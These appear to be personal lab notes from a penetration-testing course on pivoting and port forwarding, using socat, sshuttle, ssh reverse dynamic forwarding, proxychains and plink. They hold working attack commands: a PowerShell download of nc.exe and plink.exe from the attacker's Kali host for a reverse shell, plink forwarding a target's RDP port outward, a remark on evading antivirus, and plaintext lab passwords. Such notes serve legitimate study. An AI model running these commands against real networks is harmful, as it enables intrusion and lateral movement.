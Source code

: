 from client
`socat TCP-LISTEN:2222,fork TCP:10.4.195.215:22`

from kali - specify what we want to hit and what subnets we want to tunnel through
`sshuttle -r database_admin@192.168.195.63:2222 10.4.195.0/24 172.16.195.0/24`

in anotherm window
`smbclient -L //172.16.195.217/ -U hr_admin --password=Welcome1234`

### Port forwarding with windows tools
ssh.exe - part of windows (ssh needs to be above 7.6 to use it for remote dynamic port forwarding)
```
xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:192.168.195.64 /w:1200 /h:700
sudo systemctl status ssh
```

from cmd windows
```
where ssh
ssh.exe -V
ssh -N -R 9998 kali@192.168.45.181
ssh -N -R 1080 kali@192.168.45.242
```

update /etc/proxychains4.conf to use the above socket
`socks5 127.0.0.1 9998`

D@t4basePassw0rd! - use proxychains to connect to internal target via our kali listener
```
proxychains psql -h 10.4.195.215 -U postgres
proxychains ./ssh_exe_exercise_client.bin -i 10.4.195.215
```

### plink (command line putty alternative to ssh)
- rarely gets flagged with antivirus software
- good when you don't have gui access but doesn't do remote dynamic port forwarding

serve up nc.exe to get reverse shell
```
sudo systemctl start apache2
find / -name nc.exe 2>/dev/null
sudo cp /usr/share/windows-resources/binaries/nc.exe /var/www/html/
```

in command input on webpage
`powershell wget -Uri http://192.168.45.181/nc.exe -OutFile C:\Windows\Temp\nc.exe`

now get plink downloaded onto the machine
```
find / -name plink.exe 2>/dev/null
/usr/share/windows-resources/binaries/plink.exe
sudo cp /usr/share/windows-resources/binaries/plink.exe /var/www/html/
powershell wget -Uri http://192.168.45.181/plink.exe -OutFile C:\Windows\Temp\plink.exe
```

run plink
- pass the socket we want to open on kali, the RDP server port on the loopback interface of the target that we want to forward packets to
`C:\Windows\Temp\plink.exe -ssh -l kali -pw kali -R 127.0.0.1:9833:127.0.0.1:3389 192.168.45.181`
